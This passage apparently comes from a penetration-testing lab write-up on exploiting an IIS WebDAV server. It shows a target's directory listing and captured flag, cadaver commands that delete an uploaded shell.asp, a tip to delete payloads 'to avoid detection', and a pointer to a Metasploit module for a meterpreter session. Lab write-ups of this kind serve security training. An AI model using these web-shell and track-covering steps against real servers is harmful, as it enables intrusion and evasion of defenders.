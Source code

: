 ```bash
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of c:\

11/14/2018  06:56 AM    <DIR>          EFI
01/04/2021  07:22 AM                32 flag.txt
10/27/2020  06:45 AM    <DIR>          inetpub
05/13/2020  05:58 PM    <DIR>          PerfLogs
10/27/2020  02:18 PM    <DIR>          Program Files
10/27/2020  02:18 PM    <DIR>          Program Files (x86)
10/27/2020  02:21 PM    <DIR>          Users
10/27/2020  06:46 AM    <DIR>          Windows
               1 File(s)             32 bytes
               7 Dir(s)  16,350,052,352 bytes free

c:\>type flag.txt
type flag.txt
d3aff16a801b4b7d36b4da1094bee345
```

{% hint style="warning" %}
Make sure to delete all the generated payload after uploaded onto the target system to avoid detection!
{% endhint %}

```bash
cadaver http://10.4.18.218/webdav
delete shell.asp
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>shell.asp deleted</p></figcaption></figure>

### metasploit - automatic <a href="#metasploit-automatic" id="metasploit-automatic"></a>

* Use Metasploit [iis\_webdav\_upload\_asp](https://www.rapid7.com/db/modules/exploit/windows/iis/iis\_webdav\_upload\_asp/) module to get a `meterpreter` session on the target system.

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
